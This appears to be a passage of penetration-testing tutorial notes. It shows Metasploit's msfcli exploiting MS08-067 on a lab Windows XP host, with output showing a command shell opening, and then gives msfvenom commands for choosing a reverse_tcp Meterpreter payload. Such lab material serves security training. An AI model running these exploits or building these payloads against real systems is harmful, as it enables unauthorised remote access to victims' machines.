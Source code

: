 ```hl_lines="1"
```

- running the exploit

use the `E` flag to tell msfcli to run the exploit

```hl_lines="1"
root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 PAYLOAD=windows/shell_bind_tcp E
[*] Please wait while we load the module tree...

RHOST => 192.168.20.10
PAYLOAD => windows/shell_bind_tcp
[*] Started bind handler ❶
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Command shell session 1 opened (192.168.20.9:35156 -> 192.168.20.10:4444)
    at 2015-08-31 16:43:54 -0400

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

### Creating Standalone Payloads With Msfvenom

- view the help page of msfvenom

```
root@kali:~# msfvenom - h
```

- listing all payloads

```
root@kali:~# msfvenom -l payloads
```

- setting payload

use the `-p` flag to set the payload

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp
```

- setting options

use the `-o` flag to set the options

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -o
[*] Options for payload/windows/meterpreter/reverse_tcp

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique: seh, thread, process,
                                           none
    LHOST                      yes       The listen address
    LPORT     4444             yes       The listen port
```
